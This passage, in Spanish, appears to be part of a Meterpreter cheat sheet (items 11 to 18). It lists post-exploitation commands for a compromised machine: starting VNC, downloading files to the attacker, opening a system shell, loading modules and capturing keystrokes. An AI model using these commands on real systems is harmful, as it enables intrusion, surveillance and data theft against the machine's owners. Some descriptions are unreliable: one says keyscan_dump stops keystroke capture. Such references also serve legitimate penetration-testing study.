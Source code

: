     ```bash
    run vnc
    ```

    * **Explicación:** Inicia un servidor VNC en la máquina objetivo, permitiendo la conexión a su escritorio.
12. **Exfiltrar archivos de la máquina objetivo a la máquina del atacante:**

    ```bash
    download <remote_file> <local_path>
    ```

    * **Explicación:** Descarga un archivo desde la máquina objetivo a la máquina del atacante.
13. **Cargar un módulo adicional en Meterpreter:**

    ```bash
    load <module_name>
    ```

    * **Explicación:** Carga un módulo adicional en Meterpreter para ampliar sus capacidades.
14. **Ejecutar comandos del sistema operativo en Meterpreter:**

    ```bash
    shell
    ```

    * **Explicación:** Abre una shell interactiva en el contexto del sistema operativo de la máquina objetivo.
15. **Cerrar una sesión Meterpreter:**

    ```bash
    sessions -k <session_ID>
    ```

    * **Explicación:** Cierra una sesión Meterpreter específica utilizando su ID de sesión.



comandos especiales de Meterpreter, incluyendo aquellos relacionados con la escalada de privilegios y otras funciones avanzadas:

16. **Capturar pulsaciones de teclas en la máquina objetivo:**

    ```bash
    keyscan_start
    ```

    * **Explicación:** Inicia la captura de pulsaciones de teclas en la máquina objetivo.
17. **Detener la captura de pulsaciones de teclas:**

    ```bash
    keyscan_dump
    ```

    * **Explicación:** Detiene la captura de pulsaciones de teclas y muestra el resultado.
18. **Enumerar usuarios en la máquina objetivo:**

    ```bash
    enum_users
    ```
